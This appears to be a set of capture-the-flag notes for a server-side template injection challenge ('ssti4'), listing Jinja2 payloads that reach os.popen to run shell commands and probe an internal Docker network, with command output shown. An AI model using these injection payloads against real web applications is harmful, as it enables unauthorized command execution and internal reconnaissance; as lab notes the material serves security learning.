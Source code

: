 # ssti4

## What it is

Same as sst3.

https://stackoverflow.com/a/12341532/12864941
The eviltree.py file is weird it contains html, it can be displayed on the website with:
```py
{{request.application.__globals__.__builtins__.__import__('os').popen('cat eviltree.py').read()|safe}}
```
It shows some github code from (eviltree)[https://github.com/t3l3machus/eviltree]\
Not sure if it is part of the challenge.

There is a docker-compose (see docker-compose.yml) that talks about a service that should be down but isn't.\
Haven't found a way to access it yet.



```py
{{request.application.__globals__.__builtins__.__import__('os').popen('ping -c 1 toto8042').read()}}
PING toto8042 (172.23.0.2): 56 data bytes
64 bytes from 172.23.0.2: icmp_seq=0 ttl=64 time=0.147 ms
--- toto8042 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max/stddev = 0.147/0.147/0.147/0.000 ms
```

How to see stderr of commands (https://stackoverflow.com/a/637834/12864941):
```py
{{request.application.__globals__.__builtins__.__import__('os').popen('ls abc 2>&1 | cat').read()}}
```

nmap, nc, and telnet are not installed.

```
{{request.application.__globals__.__builtins__.__import__('os').popen('ip a').read()}}

1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
1342: eth0@if1343: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:15:00:09 brd ff:ff:ff:ff:ff:ff
    inet 172.21.0.9/16 brd 172.21.255.255 scope global eth0
       valid_lft forever preferred_lft forever
1344: eth1@if1345: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:17:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.23.0.3/16 brd 172.23.255.255 scope global eth1
       valid_lft forever preferred_lft forever
```

See port_discovery.js
port 4242 and 8042 are open

(Using ssti)
```
$ curl toto8042:8042
this is not the way this time, goodluck !!
```

Don't know how to get port 4242 banner.
